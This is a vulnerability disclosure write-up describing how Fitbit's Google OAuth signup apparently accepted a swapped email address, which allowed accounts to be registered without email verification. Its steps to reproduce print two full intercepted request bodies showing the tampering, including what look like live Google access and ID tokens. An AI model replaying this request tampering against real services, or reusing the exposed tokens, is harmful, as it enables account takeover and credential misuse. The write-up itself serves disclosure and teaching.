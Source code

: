 +++
title = " Unauthorization of Oauth Token Leads to Pre Account Takeover without Verifying"
date = "2022-03-08"
author = "0xdroopy"


+++

## Summary 

On Fitbit official website I was able to register with any account without verifying the email because of the vulnerability Broken Authentication. This was due to the unauthorization of the Oauth token with respect to the email address which was being transferred to the server.

{{< image src="https://miro.medium.com/max/1400/1*3z3zxJj_GzArgT2SIy529w.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Functionalities
On fitbit.com there are 2 functionalities to register in the account. One is normal functionality of email address and password whereas other is the functionality of Oauth by which you can register using your google account. In the Oauth functionality, after logging through you would be directly be logged in to the account. Whereas in the normal functionality, you have to verify the email in order to go for further registration of details.
  
### Functionalities On Register Page
{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

### When Try to Register Using Normal Functionality
{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## The Unauthorization of Oauth Token

By logging through the Oauth Functionality, accounts.google.com sends the Oauth Token to the website who requested to be logged in using Google Functionality. Then the website authorize the token and thus extracts the email address fromit. The authorization of the Oauth Token and the Email Address go step by step till the end of the registration of the account. At the end the server uses the cookies same as the oauth token being provided for further logins.

{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Steps To Reproduce

1) Make Two New Google Accounts and name them as Account 1 and Account 2.

2) Go to https://accounts.fitbit.com/signup and now login with the Account 1 using Google Oauth Functionality.

3) Now after clicking next put your height , weight etc. and Start intercepting the requests.

4) After that Click Submit and in the burp suite change the email address from Account 1 to Account 2.
```json
email=testemailaddressforfit1%40gmail.com&password=asuidahsdhaw&birthday=2006-03-08&emailSubscribe=true&firstName=Test&lastName=Account&gender=MALE&height=185.42&heightUnit=en_US&weight=65&weightUnit=METRIC&locale=en_US&localeLang=en&localeCountry=United+States&timezone=Asia%2FKolkata&legalTermsAccepted=true&googleUID=107045151452751939515&googleAccessToken=ya29.A0ARrdaM8eNFf87_O5ah4jQzQLQl8J7Guj7lcAvJul7Sae0OAAniUF-OSCYN4dbXNeLFxMNk-8EyfhbdiT9BlbIgujPCDPK3qqq0nWNjg_IUuEjAmTQgyZpdk6MQQsVzeTHEugRxsqFxjmXi8OEvxiC1bkOr4y&googleIdToken=eyJhbGciOiJSUzI1NiIsImtpZCI6ImQ2M2RiZTczYWFkODhjODU0ZGUwZDhkNmMwMTRjMzZkYzI1YzQyOTIiLCJ0eXAiOiJKV1QifQ.eyJpc3MiOiJhY2NvdW50cy5nb29nbGUuY29tIiwiYXpwIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwiYXVkIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwic3ViIjoiMTA3MDQ1MTUxNDUyNzUxOTM5NTE1IiwiZW1haWwiOiJ0ZXN0ZW1haWxhZGRyZXNzZm9yZml0MUBnbWFpbC5jb20iLCJlbWFpbF92ZXJpZmllZCI6dHJ1ZSwiYXRfaGFzaCI6IlpyQ2YyR09ZSVM3MENxVGszRlE1TkEiLCJpYXQiOjE2NDY3NDUzMDQsImV4cCI6MTY0Njc0ODkwNH0.qipJa4CC2UDuR8hzW0mIRtJ1-w3xPXZlY_UriCsCK86PcjrZYQ0O3W3FjXYYCel-Vv2LZg_20Qa7sb1vVgy5lceQR7QnUSWBMZoCUEkqaXfTZ8NAyF_Bm3inneDJRkLPuQxwJQRbA0PCqUew7b-Z2OZ10KeqzJqalYstjkAJMXnbd_UTwGdx8d8cdQxJ3dni-5boPvejaoj2qkOzriUYaqrQNZN3Z-UrE_5dV8ux98zAK8ejK3BRquZ0mPWpf_p48QrMYKec7QLahH4rDE1wq4tdQPJz5EZLtcEAwx9IlNKijzjyhKPSdNjRn7zlPxPL5Pqcf7e99gToq5Bjr0GK3w&client_id=228TQF
```
To -
```json
email=testemailaddressforfit2%40gmail.com&password=asuidahsdhaw&birthday=2006-03-08&emailSubscribe=true&firstName=Test&lastName=Account&gender=MALE&height=185.42&heightUnit=en_US&weight=65&weightUnit=METRIC&locale=en_US&localeLang=en&localeCountry=United+States&timezone=Asia%2FKolkata&legalTermsAccepted=true&googleUID=107045151452751939515&googleAccessToken=ya29.A0ARrdaM8eNFf87_O5ah4jQzQLQl8J7Guj7lcAvJul7Sae0OAAniUF-OSCYN4dbXNeLFxMNk-8EyfhbdiT9BlbIgujPCDPK3qqq0nWNjg_IUuEjAmTQgyZpdk6MQQsVzeTHEugRxsqFxjmXi8OEvxiC1bkOr4y&googleIdToken=eyJhbGciOiJSUzI1NiIsImtpZCI6ImQ2M2RiZTczYWFkODhjODU0ZGUwZDhkNmMwMTRjMzZkYzI1YzQyOTIiLCJ0eXAiOiJKV1QifQ.eyJpc3MiOiJhY2NvdW50cy5nb29nbGUuY29tIiwiYXpwIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwiYXVkIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwic3ViIjoiMTA3MDQ1MTUxNDUyNzUxOTM5NTE1IiwiZW1haWwiOiJ0ZXN0ZW1haWxhZGRyZXNzZm9yZml0MUBnbWFpbC5jb20iLCJlbWFpbF92ZXJpZmllZCI6dHJ1ZSwiYXRfaGFzaCI6IlpyQ2YyR09ZSVM3MENxVGszRlE1TkEiLCJpYXQiOjE2NDY3NDUzMDQsImV4cCI6MTY0Njc0ODkwNH0.qipJa4CC2UDuR8hzW0mIRtJ1-w3xPXZlY_UriCsCK86PcjrZYQ0O3W3FjXYYCel-Vv2LZg_20Qa7sb1vVgy5lceQR7QnUSWBMZoCUEkqaXfTZ8NAyF_Bm3inneDJRkLPuQxwJQRbA0PCqUew7b-Z2OZ10KeqzJqalYstjkAJMXnbd_UTwGdx8d8cdQxJ3dni-5boPvejaoj2qkOzriUYaqrQNZN3Z-UrE_5dV8ux98zAK8ejK3BRquZ0mPWpf_p48QrMYKec7QLahH4rDE1wq4tdQPJz5EZLtcEAwx9IlNKijzjyhKPSdNjRn7zlPxPL5Pqcf7e99gToq5Bjr0GK3w&client_id=228TQF
```

5) After Forwarding the request , you would be successfully signed up with the Account 2 Email address without verifying.

{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

 
